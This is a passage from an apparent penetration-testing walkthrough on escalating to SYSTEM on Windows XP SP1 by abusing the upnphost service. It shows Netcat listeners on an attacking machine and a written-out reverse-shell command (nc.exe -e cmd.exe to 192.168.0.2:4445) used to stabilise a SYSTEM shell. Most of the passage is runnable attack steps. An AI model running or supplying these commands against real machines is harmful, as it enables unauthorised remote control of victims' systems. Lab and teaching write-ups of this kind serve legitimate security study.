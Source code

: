 Looks perfect! The next thing to do is set up a simple listener on our attacking machine. I prefer to use Netcat for this.

```bash
root@kali> nc -lvnp 4444
```

We are now ready to start the upnphost service and execute our reverse shell via the new binary path we provided.

```powershell
C:\> net start upnphost
```

We have now received a SYSTEM shell on our listener at our attacking machine! But there's another problem. The shell is unstable and it closes after about 30 seconds. Luckily there is a way to solve this. Once we get the unstable shell on port 4444, we will execute another command right away that will establish a 2nd connection to another listener we set up on another port. When the unstable shell is closed, set up your listener again at port 4444 and set up a 2nd listener in another tab on another port. I will set my 2nd listener at port 4445.

```bash
# TAB 1
root@kali> nc -lvnp 4444  
# TAB 2
root@kali> nc -lvnp 4445
```

Next, prepare a payload to send once our connection to the first listener on port 4444 is established. We can simply copy the payload we added in the binary path from our upnphost service, and change the port to the port of our 2nd listener.

```powershell
C:\nc.exe -nv 192.168.0.2 4445 -e C:\WINDOWS\System32\cmd.exe
```

Finally we're ready to get a steady SYSTEM shell. Start the upnphost service again, a new connection will be established to our listener on port 4444. Once this shell is open, paste your payload we just created for a new connection to our listener on port 4445 and execute it. When we now check our listener in TAB 2, we will have a steady SYSTEM shell that will not close after a while.

[guide](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
